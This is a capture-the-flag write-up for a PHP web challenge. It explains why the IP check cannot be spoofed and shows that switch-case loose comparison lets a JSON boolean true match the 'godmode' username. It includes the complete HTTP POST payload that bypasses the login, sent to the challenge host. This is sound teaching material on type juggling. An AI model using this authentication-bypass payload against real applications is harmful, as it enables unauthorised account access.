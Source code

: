# Godmode user

If we want to get login as the `godmode` user , we must somehow fail this if check (line [1] section 1)

```php
!in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1'])
```
There is no way to spoof the ip in this case, if they were getting the client ip from headers such `X-Real-Ip` or something then we would have been able to add this header to our request and set it's value to `127.0.0.1` to make condition return false (NOT operator).


If there was some sort of parameter pollution bug here, which would return something else here so that the condition returns false
```php
$req->username === 'godmode'
```

And then here in the switch case it returns the `godmode` username, but sadly that's not possible here.

# Switch case (loose comparison)

Looking at the docs of the switch statement:
https://www.php.net/manual/en/control-structures.switch.php

Under a note section, it mentions that *Note that switch/case does loose comparison.*

Challenge Author's note:

![chrome_4pcIpU7hvJ](https://user-images.githubusercontent.com/31372554/188317819-bef4a10f-387d-40a7-8a68-1b2be3744549.png)

```php
php > echo  0 == "godmode";
1
php > echo  true == "godmode";
1
```


Cool, so now to solve the challenge we need to provide `true` for username value

```
POST / HTTP/1.1
Host: web1.2022.cakectf.com:8005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 38
Origin: http://web1.2022.cakectf.com:8005
Connection: close
Referer: http://web1.2022.cakectf.com:8005/


{"username":true,"password":"admin"}
```

Then visit the /admin.php endpoint and you will get the flag:

![image](https://user-images.githubusercontent.com/31372554/188317678-a165f8c7-4634-4a89-9c45-8bd3dacdcabd.png)
